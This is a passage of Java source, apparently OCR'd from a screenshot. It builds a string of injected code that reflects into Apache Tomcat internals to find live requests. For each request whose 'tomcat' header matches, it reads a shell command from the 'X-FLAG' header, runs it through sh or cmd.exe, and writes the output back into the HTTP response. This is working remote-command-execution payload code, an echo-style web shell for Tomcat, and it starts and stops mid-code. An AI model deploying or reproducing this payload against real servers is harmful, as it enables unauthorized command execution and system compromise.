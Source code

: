 ```java
                "            java.lang.reflect.Method getHandlerMethod = org.apache.coyote.AbstractProtocol.class.getDeclaredMethod(\"getHandler\",null);" +
                "            contextField.setAccessible(true);\n" +
                "            serviceField.setAccessible(true);\n" +
                "            requestField.setAccessible(true);\n" +
                "            getHandlerMethod.setAccessible(true);\n" +
                "            org.apache.catalina.loader.WebappClassLoaderBase webappClassLoaderBase =\n" +
                "                    (org.apache.catalina.loader.WebappClassLoaderBase) Thread.currentThread().getContextClassLoader();\n" +
                "            org.apache.catalina.core.ApplicationContext applicationContext = (org.apache.catalina.core.ApplicationContext) contextField.get(webappClassLoaderBase.getResources().getContext());\n" +
                "            org.apache.catalina.core.StandardService standardService = (org.apache.catalina.core.StandardService) serviceField.get(applicationContext);\n" +
                "            org.apache.catalina.connector.Connector[] connectors = standardService.findConnectors();\n" +
                "            for (int i=0;i<connectors.length;i++) {\n" +
                "                if (4==connectors[i].getScheme().length()) {\n" +
                "                    org.apache.coyote.ProtocolHandler protocolHandler = connectors[i].getProtocolHandler();\n" +
                "                    if (protocolHandler instanceof org.apache.coyote.http11.AbstractHttp11Protocol) {\n" +
                "                        Class[] classes = org.apache.coyote.AbstractProtocol.class.getDeclaredClasses();\n" +
                "                        for (int j = 0; j < classes.length; j++) {\n" +
                "                            if (52 == (classes[j].getName().length())||60 == (classes[j].getName().length())) {\n" +
                "                                java.lang.reflect.Field globalField = classes[j].getDeclaredField(\"global\");\n" +
                "                                java.lang.reflect.Field processorsField = org.apache.coyote.RequestGroupInfo.class.getDeclaredField(\"processors\");\n" +
                "                                globalField.setAccessible(true);\n" +
                "                                processorsField.setAccessible(true);\n" +
                "                                org.apache.coyote.RequestGroupInfo requestGroupInfo = (org.apache.coyote.RequestGroupInfo) globalField.get(getHandlerMethod.invoke(protocolHandler,null));\n" +
                "                                java.util.List list = (java.util.List) processorsField.get(requestGroupInfo);\n" +
                "                                for (int k = 0; k < list.size(); k++) {\n" +
                "                                    org.apache.coyote.Request tempRequest = (org.apache.coyote.Request) requestField.get(list.get(k));\n" +
                "                                    if (\"tomcat\".equals(tempRequest.getHeader(\"tomcat\"))) {\n" +
                "                                        org.apache.catalina.connector.Request request = (org.apache.catalina.connector.Request) tempRequest.getNote(1);\n" +
                "                                        String cmd = tempRequest.getHeader(\"X-FLAG\");\n" +
                "                                        String[] cmds = !System.getProperty(\"os.name\").toLowerCase().contains(\"win\") ? new String[]{\"sh\", \"-c\", cmd} : new String[]{\"cmd.exe\", \"/c\", cmd};\n" +
                "                                        java.io.InputStream in = Runtime.getRuntime().exec(cmds).getInputStream();\n" +
                "                                        java.util.Scanner s = new java.util.Scanner(in).useDelimiter(\"\\\\a\");\n" +
                "                                        String output = s.hasNext() ? s.next() : \"\";\n" +
                "                                        java.io.Writer writer = request.getResponse().getWriter();\n" +
                "                                        java.lang.reflect.Field usingWriter = request.getResponse().getClass().getDeclaredField(\"usingWriter\");\n" +
                "                                        usingWriter.setAccessible(true);\n" +
```